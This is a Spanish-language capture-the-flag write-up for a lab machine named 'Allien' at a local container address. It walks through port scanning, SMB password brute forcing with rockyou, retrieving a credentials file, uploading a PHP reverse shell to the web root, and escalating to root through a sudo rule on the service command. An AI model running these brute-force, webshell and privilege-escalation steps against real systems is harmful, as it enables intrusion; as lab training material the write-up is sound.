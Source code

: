 
# Allien
![image](https://github.com/user-attachments/assets/7fcabe7e-bd29-4322-916d-3478628d8599)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```
Como el puerto 80 está abierto hacemos fuzzing con gobuster para ver qué páginas encontramos.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 3543]
/info.php             (Status: 200) [Size: 72710]
/productos.php        (Status: 200) [Size: 5229]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Revisamos la páginas y no encontramos nada que nos sirva así que vamos a empezar a enumerar por los puerto 139 y 445.
```bash
enum4linux 172.17.0.2
```
Nos encontramos con varios suario y mediante fuerza bruta obtenemos la contraseña de uno de ellos.

![image](https://github.com/user-attachments/assets/4c5a3858-ae93-469c-8f8c-82c8d61bef6c)

## Explotación.

Lanzamos **crackmapexec** para uno de los usuario *satriani7*
```bash
crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/5ec658f3-1c70-4b61-b6a8-cffd0e325fe4)

Ahora podmeos con smbmap enumerar recursos del usuario *satriani7*
```bash
smbmap -H 172.17.0.2 -u satriani7 -p 50cent
````
![image](https://github.com/user-attachments/assets/58f7b77d-fc96-4565-97ae-780e3e606c1c)

Vemos que tenemos acceso de lectura a los directorios *myshare* y *backup24* que es donde encontraremos información útil.
```bash
smbclient //172.17.0.2/backup24 -U satriani7
```
![image](https://github.com/user-attachments/assets/75cc8b4c-4f6e-48d7-bf62-ef59f8771a73)

```bash
get credentials.txt
```
En el archivo nos encontramos con las credenciales de varios usuarios y sus contraseñas, vamos a utilizar las del usuario *administrador* para ver los recursos compartidos y luego con *smbclient* conectarnos a la máquina.
```bash
smbmap -H 172.17.0.2 -u administrador -p Adm1nP4ss2024
```
![image](https://github.com/user-attachments/assets/cb47faa2-92e4-48d3-8bb0-55dca5511e67)

```bash
smbclient //172.17.0.2/home -U administrador
```
![image](https://github.com/user-attachments/assets/2dabfdbc-60f6-454e-9f1a-5b3ef57ea7be)

Podemos observar que es el directorio donde se encuentras las páginas php, así que como tenemos permisos de escritura subimos una revershell, en mi caso de PentestMonkey[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php], sustituimos la IP y PUERTO con los nuestros y la subimos al directorio.

```bash
put shell.php
```
Una vez que la hemos subido, nos ponemos en escucha por el puerto especificado y en el navegador ponemos la dirección de la página subida.
![image](https://github.com/user-attachments/assets/ff80edc9-4773-4dc7-a90f-d6dffff7706f)

![image](https://github.com/user-attachments/assets/e81330b0-b89a-41e2-9aee-af859842266d)

Hacemos una tratamiento de la tty.
```bash
script -c bash /dev/null
Ctrl+Z
stty -echo raw;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de Privilegios.
Ya estamos dentro de la máquina como el usuario *www-data*, vemos si tenemos algún prvilegio sudo y vemos que podemos ejecutar */usr/sbin/service* como **root**.

![image](https://github.com/user-attachments/assets/9cc801a0-15a4-4fa8-a604-2bfa393286a2)

```bash
sudo /usr/sbin/service ../../bin/bash
```
![image](https://github.com/user-attachments/assets/8fc3fe3e-46c5-401b-8e16-f37e3332cb3f)







